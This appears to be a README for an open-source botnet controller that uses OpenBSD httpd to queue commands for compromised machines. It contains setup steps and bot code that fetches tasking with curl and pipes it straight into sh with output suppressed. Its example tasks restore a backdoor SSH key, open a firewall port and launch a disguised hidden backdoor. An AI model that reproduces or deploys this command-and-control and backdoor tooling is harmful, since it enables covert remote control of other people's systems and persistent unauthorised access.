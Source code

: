 [OpenBSD `httpd(8)`](https://man.openbsd.org/httpd.8) Botnet Controller
-----------------------------------------------------------------------------------
A cheesy botnet controller which uses
[OpenBSD's `httpd(8)`](https://man.openbsd.org/httpd.8) to do the
heavy lifting.

Meant to demonstrate what just a little code can do.

It consists of three parts:
1.  A shell script to watch `/var/www/logs/access.log` for the purposes of...
    1.  Noting when bots call back
    2.  Deleting picked-up tasking
2.  Another shell script to add a task for a bot
3.  This README, with [setup instructions](#Setup)

For legal use only.

Features
--------
- Fewer than 100 lines of code.
- Comms over HTTP(s).
- Integration with existing [`http.conf`](https://man.openbsd.org/httpd.conf.5) files.
- Deletion of tasks sent to bots.
- No command output which causes mental clutter.  Or any output at all.
- No new syntax to learn; everything is done with normal shell things.
- Possible but untested portability to HTTP servers on other OSs.
- [Tests](./t), and a very complex [Makefile](./Makefile) to run them.

Setup
-----
1.  Create a group for botnet operators.  Alternatively, don't and adjust the
    rest of the steps accordingly.
    ```sh
    doas groupadd botnet
    doas usermod -G botnet $(whoami)
    ```
    Logout and login so new group takes effect.  Use `id` to verify.  It should
    look something like
    ```
    uid=1000(you) gid=1000(you) groups=1000(you), 1001(botnet)
    ```
2.  Create a directory for storing and serving tasking
    ```sh
    doas mkdir -p /var/www/htdocs/httpd_botnet_controller
    doas chgrp botnet /var/www/htdocs/httpd_botnet_controller
    doas chmod g=rwx /var/www/htdocs/httpd_botnet_controller
    ```
    And make sure all went well by adding and removing a file.
    ```sh
    touch /var/www/htdocs/httpd_botnet_controller/test &&
    rm -v /var/www/htdocs/httpd_botnet_controller/test
    ```
3.  Add a line in whatever chunk of
    [`httpd.conf`](https://man.openbsd.org/httpd.conf.5) will serve
    up our new tasking directory to serve an empty file instead of the default
    404 page if there's no tasking.
    ```
   	location not found match "/(httpd_botnet_controller)/.*" {
		request rewrite "/%1/_empty"
	}
    ```
    With the default config (i.e. the one from `/etc/examples/httpd.conf`) this
    will probably be in a `server {}` block
4.  Make the empty file to serve.
    ```sh
    touch /var/www/htdocs/httpd_botnet_controller/_empty
    ```
5.  Start `httpd(8)` if it's not already running.
    ```sh
    rcctl enable httpd && rcctl start httpd
    ```

6.  Clone this repository and start the controller going.
    ```sh
    git clone https://github.com/magisterquis/httpd_botnet_controller.git
    cd httpd_botnet_controller
    make # To run tests, optional
    ./httpd_botnet_controller.sh
    ```
Everything's set up.  Head down to the [Bots](#Bots) section to get bots going.

Bots
----
Bot interactions are governed by the following principles.

1.  Each bot has its own ID consisting of letters, numebers, dots, and hyphens.
    Hostnames work pretty well.
2.  Tasking is retrieved via HTTP(S) requests to
    `/httpd_botnet_controller/$ID` which serve up files from 
    `/var/www/htdocs/httpd_botnet_controller/$ID`.  What the bot does with the
    tasking is the bot's own business.
3.  When `httpd(8)` logs that a bot has requested tasking, a file in
    `$HOME/bots` is touched and `/var/www/htdocs/httpd_botnet_controller/$ID`
    is deleted.  This is inherently racy; make sure bots don't request tasking
    too often.

### Bot Code

In practice, this works out to bots being a little script like
```sh
#!/bin/sh
SERVER=https://your_server
while :; do
    curl -s $SERVER/httpd_botnet_controller/$(hostname) | sh >/dev/null 2>&1 &
    sleep 600 
done
```
or maybe a cronjob like
```cron
~/10    *   *   *   *   curl -s $SERVER/httpd_botnet_controller/$(HOSTNAME) | sh >/dev/null 2>&1 &
```

Output is up to you.

### Bot List
IDs of bots which have called back are stored in `$HOME/bots`.  These can be
sorted and filtered and so on with the customary shell tools.

Tasking
-------
Tasking takes the form of files in `/var/www/htdocs/httpd_botnet_controller/`
with the name of the bots` IDs.

Instead of manually making files in `/var/www/htdocs/httpd_botnet_controller/`,
the script [`task_bot.sh`](./task_bot.sh) may be used.  It takes as its first
argument the ID for which to queue tasking and the remaining arguments are
appended to the tasking file as a single line.  If there's no other arguments
stdin is appended to the tasking file. 

This works out to something like either
```sh
./task_bot.sh bot_1 cat <~/.ssh/ak.bak >>~/.authorized_keys
```
to add back a backup backdoor key or
```sh
./task_bot.sh bot_2 <<_eof
bash <<<'
iptables -I INPUT -p tcp --dport 44444 -j ACCEPT
exec -a not_malware /root/.hidden_backdoor' >/dev/null 2>&1 &
_eof
```
to reopen a in the firewall and start expertly hidden malware.

Config
------
The following environment variables configure both scripts:

Name           | Default                          | Description
---------------|----------------------------------|------------
`CHECKIN_PATH` | `httpd_botnet_controller`        | URL Path used for checking-in, followed by `/$ID`
`HTTPDLOGFILE` | `/var/www/logs/access.log`       | `httpd(8)`'s logfile
`LAST_DIR`     | `$HOME/bots`                     | Directory in which bots' last check-ins are noted as empty files
`TAILFLAGS`    | `-f -n -0`                       | Flags used by [`tail(1)`](https://man.openbsd.org/tail.1) for watching `$HTTPDLOGFILE`
`TASKING_DIR`  | `/var/www/htdocs/$CHECKIN_PATH}` | Directory in which tasking lives
